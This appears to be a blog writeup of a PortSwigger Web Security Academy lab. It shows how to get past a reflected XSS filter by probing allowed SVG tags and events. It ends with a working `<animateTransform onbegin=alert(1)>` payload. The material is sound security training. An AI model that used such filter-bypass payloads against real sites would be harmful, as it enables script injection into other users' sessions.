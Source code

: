 ```yaml
---
layout: post
title: Reflected XSS with some SVG markup allowed
subtitle: PortSwigger Web Security Academy Writeup
tags: [websec, ctf, portswigger, writeup]
---
```


*Note: Before we begin, go do the lab yourself. At least attempt it! You learn so many more things that way by struggling with a problem than jumping straight to the answer. Don't make the mistake I did when I was first starting out as an infosec infant, okay?*

[Link to PortSwigger Web Academy](https://portswigger.net/web-security)

[Link to the lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

```
Lab description:
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.
```


Like many of the XSS challenges in this CTF, there's a search bar that takes user input. And remember, when there's user input, there's evil afoot. 

![image1.pnghere](../assets/writeup1/1.png)

We know (according to the lab description) that the site blocks "common tags" but some SVG tags and events are free game. Now it's just a matter of finding out what SVG tags and events we can use. 

Tags like `<h1>` and `p` are blocked. `<script>` tags are blocked too. 

However, `<svg>` tags aren't blocked. Note what happens when we try to insert an `<svg>` tag and inspect the source code of the result. 

![image1.pnghere](../assets/writeup1/2.png)

We see that the `<svg>` tag is actually rendered, confirming that we need to do something that involves an svg tag in order for us to run our `alert()` function. 

Lots of people have already done a ton of the research for us, so one of my favorite links to look at when I'm doing some XSS evil is this [Cross-Site Scripting Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) by PortSwigger. 

Combing through the cheatsheet, this input stands out to me in particular:
```
<svg onload=alert(1)>
```

Since "onload" is a common JavaScript event I doubt it will work, but it's worth a try. 

...Nope. I get an "Event is not allowed" error. 

Referring to [this Firefox page](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/svg) about the SVG element, there a bunch of global events listed on the page. I've put them below for reference:

```
oncancel, oncanplay, oncanplaythrough, onchange, onclick, onclose, oncuechange, ondblclick, ondrag, ondragend, ondragenter, ondragexit, ondragleave, ondragover, ondragstart, ondrop, ondurationchange, onemptied, onended, onerror, onfocus, oninput, oninvalid, onkeydown, onkeypress, onkeyup, onload, onloadeddata, onloadedmetadata, onloadstart, onmousedown, onmouseenter, onmouseleave, onmousemove, onmouseout, onmouseover, onmouseup, onmousewheel, onpause, onplay, onplaying, onprogress, onratechange, onreset, onresize, onscroll, onseeked, onseeking, onselect, onshow, onstalled, onsubmit, onsuspend, ontimeupdate, ontoggle, onvolumechange, onwaiting

```

After trying a couple of them in the below format:
```
<svg [eventhere]>
```
I figure that the majority, if not all of these "global events" would be blocked, as "global" implies that just about any tag can use these JavaScript events. 

Interestingly, there are some "animation" tag attributes here:
```
onbegin, onend, onrepeat
```

So, I try the below input in the search bar: 
```
<svg onbegin="alert(1)">
```

And it passes through the filter, but I don't get the alert that I want. 

Additionally, there's an `<animate>` tag that is often used with `<svg>` elements (to animate your svg objects) - but upon trying to enter this tag into the search bar it's blocked. (Refer to [this tutorial](https://css-tricks.com/guide-svg-animations-smil/)). 

I know that from reading, the "onbegin" event DOES deal with animations, so I need to find an alternate tag that can be used for animations. 

[Wikipedia to the rescue!](https://en.wikipedia.org/wiki/SVG_animation) This code snippet on the article catches my eye, instead of an `<animate>` tag it uses an `<animateTransform>` tag... 

```
<svg onbegin="alert(1")>
<circle cx="0" cy="1" r="2" stroke="red" fill="none">
  <animateTransform
   attributeName="transform"
   attributeType="XML"
   type="rotate"
   from="0"
   to="360"
   begin="0s"
   dur="1s"
   repeatCount="indefinite"/>
 </circle>
```

Trying the above input, it gets through the filter and the circle actually renders a little bit, though it's really friggin small. 

So, I modified the code here to make the circle more visible (for funsies) and added my "onbegin" event with the "alert" function in it... 

<details>
  <summary>Click for spoiler. Don't be a script kiddie!</summary>
  
```<svg>
<circle id="my-circle" r="30" cx="50" cy="50" fill="orange">
  <animateTransform
   onbegin="alert(1)"
   attributeName="transform"
   attributeType="XML"
   type="rotate"
   from="0"
   to="360"
   begin="0s"
   dur="1s"
   repeatCount="indefinite"/>
```
 </details> 


I hope this was helpful!

Best,

Nen, webhackwaifu

### YouTube Video
[Coming soon]

### Cited Links
- [Link to PortSwigger Web Academy](https://portswigger.net/web-security)
- [Link to the lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)
- [Firefox SVG Reference](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/svg)
- [SVG Animation tutorial](https://css-tricks.com/guide-svg-animations-smil/)
- [SVG Animation Wikipedia article](https://en.wikipedia.org/wiki/SVG_animation)
